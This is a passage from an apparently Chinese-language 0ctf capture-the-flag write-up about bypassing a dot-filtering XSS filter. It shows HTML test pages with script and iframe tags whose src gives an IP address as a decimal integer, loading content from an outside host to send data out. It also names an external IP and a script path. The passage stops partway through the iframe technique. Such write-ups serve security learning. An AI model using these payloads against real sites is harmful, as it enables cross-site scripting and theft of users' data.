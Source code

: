 

测试了一波，发现

```html

<html>
<head>
    <meta charset="utf-8">
    <title>XSS Test Page</title>
</head>
<body>
<p>

            <script src=\\1759553882

</p>
</body>
```

确实可以往外发数据

![script](https://moxiaoxi.info/img/post/0ctf/script.png)

因为我们没有.号，所以也不能引用类似104.224.169.90/a.js这种界面

然后，就考虑index.html这种特性。我们引用一个104.224.169.90的页面，它会自动补全到达index.html(这种补全和服务器的相关设置相关，你们懂得)

那么，我们现在就能往外引用数据了！

但是，后来测试发现

```Js
<script src=\\2131121
```

这种格式的引用，浏览器只是做了一个get请求，但是因为没有右标签？？（具体原因没深入研究），它没有对里面的js进行解析执行。

然后，又测试了几个其他的标签，发现iframe真是一个神奇的标签。

我们可以通过

```html

<html>
<head>
    <meta charset="utf-8">
    <title>XSS Test Page</title>
</head>
<body>
<p>

            <iframe src=\\1759553882

</p>
</body>
```
